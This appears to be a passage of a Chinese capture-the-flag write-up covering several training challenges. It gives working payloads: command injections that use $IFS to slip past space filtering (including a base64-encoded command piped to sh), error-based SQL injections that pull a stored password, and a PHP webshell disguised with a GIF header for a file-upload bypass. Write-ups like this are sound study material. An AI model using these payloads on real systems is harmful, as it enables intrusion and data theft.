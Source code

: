 刚好前几天用了下 tar... 然后空格可以用 `$IFS$9` 绕过, 并且 `.` 没有被过滤

```bash
127.0.0.1;tar$IFS$9-cf$IFS$9a.tar$IFS$9.
```

下载打开解压得到 flag

之后又想到一种方法

```bash
127.0.0.1;cat$IFS$9`ls`
```

在 wp 中看到的其它解法

```bash
127.0.0.1;a=g;cat$IFS$1fla$a.php
127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

利用变量拼接或者 base64 绕过检测

## [极客大挑战 2019]LoveSQL

简单 sql 注入

xpath 报错

```sql
123' and updatexml(1,concat(0x7e,(select password from l0ve1ysq1 where username='flag'),0x7e),1) #
```

有长度限制, 需要配合 substr

floor() + rand() 报错

```sql
123' union select count(*),2,concat(':',(select password from l0ve1ysq1 where username='flag'),':',floor(rand()*2))as a from information_schema.tables group by a #
```

这个没有长度限制

## [极客大挑战 2019]Knife

简单命令执行

## [极客大挑战 2019]Http

referer user-agent xff 头伪造

## [极客大挑战 2019]Upload

后缀为黑名单过滤, 同时检测了文件头和文件内容

文件内容不能包含 `<?`, 使用 script 标签绕过

```html
GIF89A
<script language="php">system($_GET[1]);</script>
```
